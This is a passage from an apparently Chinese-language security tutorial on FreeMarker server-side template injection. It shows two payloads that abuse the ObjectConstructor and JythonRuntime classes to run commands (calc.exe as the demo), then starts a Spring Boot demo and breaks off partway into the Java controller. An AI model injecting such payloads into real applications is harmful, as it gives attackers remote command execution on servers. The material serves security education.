 freemarker.template.utility 里面有个ObjectConstructor类，如下图所示，这个类会把它的参数作为名称，构造了一个实例化对象。因此我们可以构造一个可执行命令的对象，从而构造远程命令执行漏洞。

<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()

freemarker.template.utility 里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

这里使用测试代码来大概演示一下：[https://github.com/hellokoding/springboot-freemarker](https://github.com/hellokoding/springboot-freemarker)

代码演示说明：[https://hellokoding.com/spring-boot/freemarker/](https://hellokoding.com/spring-boot/freemarker/)

前端代码　　——>　　hello.ftl

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello ${name}!</title>
    <link href="/css/main.css" rel="stylesheet">
</head>
<body>
    <h2 class="hello-title">Hello ${name}!</h2>
    <script src="/js/main.js"></script>
</body>
</html>

后端代码　　——>　　HelloController.java：

package com.backendvulnerabilities.ssti;

import freemarker.cache.MultiTemplateLoader;
import freemarker.cache.StringTemplateLoader;
import freemarker.cache.TemplateLoader;
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import freemarker.template.utility.DateUtil;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.*;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;

@Controller
public class HelloController {
